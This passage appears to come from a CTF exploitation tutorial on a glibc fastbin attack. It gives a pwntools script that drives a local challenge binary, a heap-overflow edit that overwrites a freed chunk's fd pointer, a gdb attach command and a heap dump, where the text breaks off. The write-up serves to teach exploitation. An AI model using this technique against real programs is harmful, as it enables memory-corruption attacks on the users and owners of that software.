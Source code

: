 ## 4.1.3 fastbins attack

Write basic framework
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
context.binary = './pwn'
elf = context.binary
libc = elf.libc
p = process('./pwn')

def show():
    p.sendlineafter(':', '1')

def add(length, name):
    p.sendlineafter(':', '2')
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def edit(idx, length, name):
    p.sendlineafter(':', '3')
    p.sendlineafter(':', str(idx))
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def delete(idx):
    p.sendlineafter(':', '4')
    p.sendlineafter(':', str(idx))

p.interactive()
```
add 2 chunks, free chuck2, edit chunk1(heap overflow) to change the fd
```python
add(0x50, '000000')
add(0x50, '111111')

delete(1)
pause()
edit(0, 0x100, flat('x' * 0x50, 0, 0x61, 0xdeadbeef))
```
gdb break set to the read function in edit
``` gdb -q -p `pidof pwn` -ex "b *0x400C05" -ex "c"```
before edit, chunk2 is freed, to fastbin
```
pwndbg> heapbase
heapbase : 0x727000
pwndbg> x/40gx 0x727000
0x727000:	0x0000000000000000	0x0000000000000021
0x727010:	0x0000000000400896	0x00000000004008b1
0x727020:	0x0000000000000000	0x0000000000000061
0x727030:	0x0000303030303030	0x0000000000000000
0x727040:	0x0000000000000000	0x0000000000000000
0x727050:	0x0000000000000000	0x0000000000000000
0x727060:	0x0000000000000000	0x0000000000000000
0x727070:	0x0000000000000000	0x0000000000000000
0x727080:	0x0000000000000000	0x0000000000000061
0x727090:	0x0000000000000000	0x0000000000000000
0x7270a0:	0x0000000000000000	0x0000000000000000
0x7270b0:	0x0000000000000000	0x0000000000000000